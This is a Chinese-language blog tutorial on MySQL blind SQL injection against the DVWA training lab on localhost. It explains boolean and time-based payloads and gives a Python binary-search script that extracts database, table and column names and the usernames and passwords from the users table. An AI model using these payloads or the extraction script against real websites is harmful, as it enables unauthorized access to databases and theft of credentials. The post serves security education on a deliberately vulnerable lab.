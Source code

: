```yaml
---
title: mysql盲注
comments: false
date: 2016-05-27 13:21:58
categories: 安全
tags: [Web安全,SQL注入,Python]
---
```

dvwa-mysql盲注
<!--more-->
## 一、盲注SQL基础
### 函数
mysql中有几个函数可以用来进行盲注。包括  sleep(),ascii(),substring(),length()，if()等。其中：   
sleep(): 指定秒数来运行语句  
ascii() 返回ASCII码  
substring() 截取字符串长度  
用法：`SubString(string, int, int)  `  
返回第一个参数中从第二个参数指定的位置开始、第三个参数指定的长度的子字符串   
length() 返回字符串长度  
if() IF(Condition,A,B) 意义：当Condition为TRUE时，返回A；当Condition为FALSE时，返回B  

例如：
在mysql中分别运行  
`select sleep(5);`
会出现5秒延迟。
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind_001.png)  
`select if(1,sleep(5),1)`
如果为真，就延时5秒，否则返回1  
查询当前数据库长度
`select length(database());`
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-002.png)  
截取当前数据库第一个字符
`select substring(database(),1,1);`
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-003.png)  
当前数据库第一个字符的ascii码
`select ascii(substring(database(),1,1));`
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-004.png)  
对dvwa进行盲注，由于盲注没有提示，只能根据页面返回错误与否进行判断。  
### 如何判断长度：
`select length(database())>1;`
返回1，代表正确
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-006.png)  
`select length(database())>2;`
同样正确，继续增加。  
查询`select length(database())>4;`
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-007.png)  
返回0，代表错误。即长度不大于4
再查询`select length(database())=4;`
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-008.png)  
返回1，代表正确，所以当前数据库长度为4
### 如何查询内容
`select ascii(substring(database(),1,1))>2`
返回正确，即当前数据库第一个字符的ascii大于2，在这里可以使用二分法，最终    
`select ascii(substring(database(),1,1))=100`,返回正确。即当前数据库第一个字符ascii为100，也就是d  
以此类推，`select ascii(substring(database(),2,1))=118`可以得到所以数据库所以内容。  
### dvwa中sql盲注语句:
首先判断长度。  
`http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and length(database())>1-- &Submit=Submit#`


返回
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-005.png)  
继续增大数字,最终得到
`http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and length(database())=4-- &Submit=Submit#`
返回正确，同上，查询内容
`http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and ascii(substring( database(),1,1))=100-- &Submit=Submit#`

得到第一个字符，以此类推，可以得到当前数据库名称。  


## 二、利用python脚本
前面手工的过程太过繁琐，可以利用python脚本来辅助。
这里写了个简单的python脚本。利用前面的dvwa模拟登录脚本免登录  
查询长度，使用循环判断
```
def get_len(input_str):
    for i in range(1, 20):
        payload = "' and length(%s)=%d-- " % (input_str, i)
        url = "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%s&Submit=Submit#" % payload
        html = sql_get.get(url)
        if (html.text.find("User ID exists in the database") != -1):
            # print("长度=", i)
            return i
```
在这里input_str为查询的内容，如database(),user()等  


查询字符ascii，这里使用二分法进行查找  
```
def get_ascii(min_num, max_num, input_str, i, url):
    mid_num = int((min_num + max_num) / 2)
    payload = "' and ascii(substring(%s, %d, 1)) > %d-- " % (input_str, i, mid_num)
    url = "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%s&Submit=Submit#" % payload
    # print(url)
    html = sql_get.get(url)
    if (max_num - min_num) == 1:
        if (html.text.find("User ID exists in the database") != -1):
            return max_num
        else:
            return min_num
    if (html.text.find("User ID exists in the database") != -1):

        min_num = mid_num
        return get_ascii(min_num, max_num, input_str, i, url)

    else:
        max_num = mid_num
        return get_ascii(min_num, max_num, input_str, i, url)

```
得到内容，这里调用get_ascii函数，根据长度循环
```
def get_cont(input_str, the_get_len):
    max_num = 127
    min_num = 33
    mid_num = 1
    ascii_cont = ""
    for i in range(1, the_get_len + 1):
        payload = "' and ascii(substring(%s, %d, 1)) > %d-- " % (input_str, i, mid_num)
        url = "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%s&Submit=Submit#" % payload
        temp_ascii = get_ascii(min_num, max_num, input_str, i, url)
        temp_ascii = chr(temp_ascii)
        ascii_cont += temp_ascii

    return ascii_cont
```
主函数为
```
def main():
    input_str = input("输入：")
    the_get_len = get_len(input_str)
    print(input_str, '长度=', the_get_len)
    ascii_cont = get_cont(input_str, the_get_len)
    print("内容:", ascii_cont)
```
## 三、查询表的内容
如何查到表的内容，由于mysql是支持嵌套查询的，可以利用嵌套查询得到内容。这里可以参考普通注入的语句。  
在mysql中查询
`select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x64767761`
可以得到dvwa数据库的所有的表名。
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-009.png)  
`select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x64767761 limit 0,1;`可以得到dvwa数据库的第一行表名。  
所以在盲注中可以这样查询：
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and ascii(substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x64767761 limit 0,1),1, 1))=103--
&Submit=Submit#
```
得到第一个字符，即g；
然后同上，可以依次得到表名。

得到表名后，查询字段名称。  
在mysql中查询
`select column_name from information_schema.columns where table_name=0x7573657273`
得到user表中所以字段名。
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-010.png)  
所以在盲注中可以这样查询：
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and ascii(substring((select column_name from information_schema.columns where table_name=0x7573657273 limit 0,1),1, 1))>x--
&Submit=Submit#
```
依次类推，可以得到所有字段；
得到字段后，查询内容  
在mysql中查询
`select user from users`，得到user字段的内容  
`select password from users`，得到password字段的内容  
![](http://7xo8y2.com1.z0.glb.clouddn.com/image/sql-blind/sql_blind-011.png)
所以在盲注中可以这样查询：
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and ascii(substring((select user from users limit 0,1),1, 1))>x--
&Submit=Submit#
```
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and ascii(substring((select password from users limit 0,1),1, 1))>x--
&Submit=Submit#
```
依次得到user和password的内容。

除了这种方式外，也可以使用sleep函数。
例如，查询长度。
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and if(length(database())=4,sleep(5),1)-- &Submit=Submit#
```
查询内容
```
http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and if(ascii(substring( database(),1,1))=100,sleep(5),1)-- &Submit=Submit#
```
同理，也可以查询其它的内容。

事实上，一般可以使用sqlmap进行盲注查询。
